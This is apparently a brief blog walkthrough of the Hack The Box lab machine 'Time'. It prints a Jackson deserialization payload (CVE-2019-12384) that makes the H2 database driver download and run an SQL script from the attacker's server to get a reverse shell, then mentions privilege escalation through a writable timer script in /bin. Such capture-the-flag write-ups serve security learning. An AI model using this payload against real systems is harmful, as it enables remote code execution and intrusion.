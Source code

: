 ```yaml
---
layout: post
title:  Hack The Box - Time
category: walkthrough
date:   2020-10-25 06:21:00
---
```

# ![time](/assets/img/time/time.jpg)  
Opened the ip with firefox  
Eentering "test" with validator(beta) selected it shows the processor -fasterxml/jackson
![browser](/assets/img/time/time2.png)  

### Exploit 
Found ![this](https://github.com/jas502n/CVE-2019-12384) exploit after google  
Changed the file inject.sql
![inject.sql](/assets/img/time/time4.png)  

Opened my python srver, started nc and used this payload to upload inject.sql to the server
>[
>"ch.qos.logback.core.db.DriverManagerConnectionSource", 
>     {
>        "url":
>"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.XX.XX:80/inject.sql'"
>  }
>]
![payload](/assets/img/time/time3.png)  

![server](/assets/img/time/time5.png)  
Got shell as pericles and found a writable file in /bin  
![periclesHome](/assets/img/time/time8.png)  
![timer\_backup](/assets/img/time/time6.png)  
Edited the file to get root's flag  
![editTimer](/assets/img/time/time7.png)  
![flag](/assets/img/time/time9.png)  

